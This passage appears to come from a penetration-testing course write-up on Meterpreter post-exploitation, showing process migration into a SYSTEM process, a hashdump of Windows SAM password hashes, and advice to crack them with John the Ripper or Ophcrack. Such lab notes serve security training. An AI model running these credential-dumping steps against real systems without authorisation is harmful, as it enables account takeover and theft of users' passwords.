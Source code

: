 ```
meterpreter > ps -U SYSTEM
meterpreter > migrate 616
[*] Migrating from 2920 to 616...
[*] Migration completed successfully.
meterpreter > get pid
Current pid: 616
```

![migrate-process.png](/img/in-post/ine/migrate-process.png)

The last command we want to show you is `hashdump`. This command only works if we have system privelegs on the remote machine, and it allows us to retrive the password hashes stored in the SAM file.

```
meterpreter > hashdump
```

We now have a list of users and their password hashes. We can now stored them locally and use any cracking tools such as `Jogn the Ripper`, or `Ophcrack` to crack them.

![hashdump-after-migrate.png](/img/in-post/ine/hashdump-after-migrate.png)






